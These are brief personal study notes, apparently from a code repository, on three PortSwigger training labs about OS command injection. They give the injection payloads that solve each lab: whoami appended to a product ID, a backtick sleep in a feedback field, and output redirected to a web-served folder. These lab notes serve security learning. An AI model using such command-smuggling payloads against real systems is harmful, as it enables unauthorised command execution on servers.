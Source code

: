# OS command injection
https://portswigger.net/web-security/os-command-injection

material:
https://www.hackingarticles.in/comprehensive-guide-on-os-command-injection/




<!-- Lab: OS command injection, simple case -->
https://portswigger.net/web-security/os-command-injection/lab-simple

use product stock API request (POST /product/stock HTTP/1.1):
add bash comand 'whoami' to the product parameter with url encoded & (to avoid splitting to a new parameter):
    productId=1%26 whoami &&storeId=1

# OSS!


<!-- Lab: Blind OS command injection with time delays -->
https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays

hint:
& ping -c 12 127.0.0.1 &

use feedback form and send messege to repeater (POST /feedback/submit HTTP/1.10)

add a sleep command, inside a backtip to force it to run
&message=blah`+sleep+11+`

# OSS!



<!-- Lab: Blind OS command injection with output redirection -->
https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection


hint:
& whoami > /var/www/static/whoami.txt &

writable folder:
/var/www/images/


payload (urlencoded):
`whoami+>+/var/www/images/whoami2.txt`

whoami ? peter-36IIw6

# OSS!


